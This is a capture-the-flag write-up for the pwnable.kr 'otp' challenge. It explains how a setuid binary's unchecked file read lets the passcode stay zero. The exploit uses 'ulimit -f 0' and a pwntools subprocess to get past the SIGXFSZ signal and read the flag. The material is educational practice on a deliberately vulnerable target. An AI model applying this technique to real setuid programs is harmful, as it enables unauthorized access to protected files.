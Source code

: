 ## Description
otp - 100 pt [writeup]

> I made a skeleton interface for one time password authentication system.
> I guess there are no mistakes.
> could you take a look at it?
>
> hint : not a race condition. do not bruteforce.
>
> ssh otp@pwnable.kr -p2222 (pw:guest)

## Solution
Let's run some basic checks that hopefully will be helpful later.
```shell
$ file otp
otp: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f851771b439725c55be4ed4b0e102c2a39f4c196, not stripped

$ checksec otp
[*] './otp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Something interesting I noticed in the code:
```c
    unsigned long long passcode=0;
    ...
	if(strtoul(argv[1], 0, 16) == passcode){
		printf("Congratz!\n");
		system("/bin/cat flag");
	}
    ...
```
passcode is of type unsigned long long, when the return value of `strtoul()` is of type unsigned long.
But after checking on the server, both of size 8. So it probably doesn't matter here.

Notice one thing, the program doesn't check wheter `passcode` was read from the file succefully or not.
Also, it is set first to be zero.
So if we can prevent the binary from writing to files before its execution, `passcode` will stay zero!

Lets look at the `ulimit` command:
```shell
# from https://ss64.com/bash/ulimit.html
ulimit
User limits - limit the use of system-wide resources.

Syntax
      ulimit [-HS] -a
      ulimit [-HS] [-bcdefiklmnpqrstuvxPRT] [limit]
Key
   -S   Set a soft limit for the given resource.
   -H   Set a hard limit for the given resource.

   -a   All current limits are reported.
   -b   The maximum socket buffer size.
   -c   The maximum size of core files created. 
   -d   The maximum size of a process's data segment.
   -e   The maximum scheduling priority ("nice") 
   -f   The maximum size of files created by the shell(default option).
   ...
```

Notice the `-f` option. If we limit the maximum size of files created by the shell to be 0, then the program won't be able to write to the otp file.
Which will make `passcode` stay 0. 

So let's try it, connect via ssh and run the following:
```shell
$ ulimit -f 0
$ $ ./otp ''
File size limit exceeded (core dumped)
```
So.. it didn't work. Why? Let's run it again with GDB:
```shell
$ gdb otp
...
(gdb) r ''
Starting program: /home/otp/otp ''

Program received signal SIGXFSZ, File size limit exceeded.
0x00007f001d3a83c0 in __write_nocancel () at ../sysdeps/unix/syscall-template.S:84
84      ../sysdeps/unix/syscall-template.S: No such file or directory.
```
So as we expected, the program tried to write to the file, but failed because of the file size limit.
But it also threw SIGXFSZ which stopped the execution of the program.\
So how can we prevent this from happening?\
After some trial and error, I found out that if we run `otp` as a subprocess, it ignores the SIGXFSZ signal.

```shell
$ ulimit -f 0
$ python2
Python 2.7.12 (default, Mar  1 2021, 11:38:31) 
>>> from pwn import *
>>> with process(["/bin/bash", "-c", "/home/otp/otp ''"]) as p:
...     print p.recvline()
...     print p.recvline()
...     print p.recvline()
```
and we get the flag!

## Setup
```bash
ssh otp@pwnable.kr -p2222 (pw:guest)
```
